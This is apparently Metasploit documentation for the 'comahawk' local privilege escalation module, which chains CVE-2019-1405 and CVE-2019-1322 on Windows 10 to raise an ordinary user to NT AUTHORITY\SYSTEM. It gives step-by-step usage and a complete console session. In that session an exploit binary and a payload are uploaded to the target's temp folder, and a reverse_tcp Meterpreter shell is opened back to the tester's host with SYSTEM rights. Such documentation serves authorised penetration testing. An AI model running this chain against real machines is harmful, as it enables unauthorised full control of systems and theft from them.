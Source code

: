 ## Introduction

This leverages two vulnerabilities on specific builds of Windows 10 to
move from an authenticated user of any level to NT AUTHORITY\LOCAL SERVICE
and then from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.
The first (CVE-2019-1405) uses the UPnP Device Host Service to elevate to
NT AUTHORITY\LOCAL SERVICE
The second (CVE-2019-1322) leverages the Update Orchestrator Service to
elevate from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.

The exploit works by creating a new service, so the exploit may take
up to minute on test systems, and may take longer in the wild.  Adjusting
the exploit_timeout value in the datastore.

## Usage

1. Create a session on the target system under the context of an authenticated user.
2. Begin interacting with the module: `use exploit/windows/local/comahawk`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenarios

### Windows 10 (10.0 Build 17134) x64

```
[*] Meterpreter session 1 opened (192.168.135.168:5555 -> 192.168.132.125:49674) at 2019-12-11 18:33:09 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/comahawk 
msf exploit(windows/local/comahawk) > set versbose true
versbose => true
msf exploit(windows/local/comahawk) > set session 1
session => 1
msf exploit(windows/local/comahawk) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/comahawk) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf exploit(windows/local/comahawk) > show options

Module options (exploit/windows/local/comahawk):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   SESSION          1                yes       The session to run this module on.
   WRITABLE_DIR                      no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf exploit(windows/local/comahawk) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Attempting to PrivEsc on DESKTOP-D1E425Q via session ID: 1
[*] Exploit uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\TcpHnwmv.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\EubQLoJJbPMX.exe
[*] It may take a moment after the session is established for the exploit to exit safely.
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49679) at 2019-12-11 18:35:35 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
